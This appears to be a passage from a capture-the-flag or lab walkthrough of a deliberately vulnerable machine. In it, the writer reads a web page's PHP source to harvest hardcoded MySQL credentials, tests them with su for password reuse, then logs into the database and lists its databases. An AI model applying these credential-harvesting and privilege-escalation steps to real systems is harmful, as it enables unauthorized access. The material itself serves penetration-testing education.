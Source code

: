 It can be seen that there are two users on the system "harold" and "john" but we don't have access to anyone's directory.

Now, as the username is `apache` we can assume that this user is created for some web service. So, we can check the files in `var/www` directory to see if we can find some sensitive information that might help us to escalate privileges. 

If we recall, then we had found an SQLi on the `index.php` page. So, it means that it would've been connected to some database in the backend. So, we can try to read the code for `index.php` in `/var/www/html` to see we can find some useful information.

```php
bash-3.00$ cat index.php 
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");
```

And the very beginning of the file we can find MySQL login credentials for user "john". Just to check if there is a case of password reuse we can first try to switch user to "john" or "harold" using the password "hiroshima" before check the database.

```bash
bash-3.00$ su john
Password: 
su: incorrect password
bash-3.00$ su harold
Password: 
su: incorrect password
```

But it appears like there is no password reuse over here. So, we can move and see if any useful information can be obtained from the database.

```mysql
bash-3.00$ mysql -u john -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5 to server version: 4.1.22

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+----------+
| Database |
+----------+
| mysql    |
| test     |
| webapp   |
+----------+
3 rows in set (0.03 sec)
```

It can be seen that there are 3 tables. We can check each one of them.
